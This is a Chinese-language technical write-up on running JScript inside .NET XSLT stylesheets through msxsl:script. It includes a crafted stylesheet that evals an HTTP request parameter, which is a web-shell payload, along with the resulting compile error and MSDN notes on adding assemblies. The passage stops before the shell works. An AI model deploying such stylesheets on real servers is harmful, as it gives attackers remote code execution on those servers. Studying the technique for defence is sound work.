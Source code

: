 XslTransform属于已弃用的类，其调用方法如下：

```
XmlDocument xmldoc=new XmlDocument();
xmldoc.LoadXml(xml);
XmlDocument xsldoc=new XmlDocument();
xsldoc.LoadXml(xslt);
XslTransform xt = new XslTransform();
xt.Load(xsldoc);
xt.Transform(xmldoc, null);

```

由于此类不能引入额外的程序集，所以并没有什么使用价值。

XslCompiledTransform为微软推荐使用的类，其调用方法与XslTransform大致相同：

```
XmlDocument xmldoc=new XmlDocument();
xmldoc.LoadXml(xml);
XmlDocument xsldoc=new XmlDocument();
xsldoc.LoadXml(xslt);
XslCompiledTransform xct=new XslCompiledTransform();
xct.Load(xsldoc,XsltSettings.TrustedXslt,new XmlUrlResolver());
xct.Transform(xmldoc,null,new MemoryStream());

```

由于asp.net提供了静态变量[System.Web]System.Web.HttpContext::Current用于表示当前的HTTP请求上下文，所以不需要像asp中进行字符串传递。构造以下xsl进行尝试：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="JScript" implements-prefix="zcg">
    function xml() {eval(System.Web.HttpContext.Current.Request.Item['a'],'unsafe');}
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml()"/>
  </xsl:template>
</xsl:stylesheet>

```

访问之，可得到一个错误信息：

```
未能找到类型“System.Web.HttpContext.Current.Request.Item”，是否缺少程序集引用? 

```

很明显缺少了程序集引用，查找msdn得到说明：

```
默认情况下引用下列两个程序集：
    System.dll
    System.Xml.dll
    Microsoft.VisualBasic.dll（如果脚本语言为 VB）
可以使用 msxsl:assembly 元素导入其他程序集。

```
